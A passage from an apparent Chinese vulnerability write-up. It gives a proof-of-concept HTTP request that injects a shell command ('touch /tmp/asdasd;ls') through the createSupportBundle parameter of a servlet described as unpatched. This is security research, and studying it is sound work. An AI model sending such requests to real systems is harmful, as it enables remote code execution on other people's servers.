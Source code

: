 [![](assets/1701612478-799e97da39bd0f50220a68158170d79d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614103007-60a06300-0a5b-1.png)

rce 同样用 createSupportBundle 函数，这个命令注入没修。

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/asdasd;ls "},"4":{"lst":["str",0]}}]
```

文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。
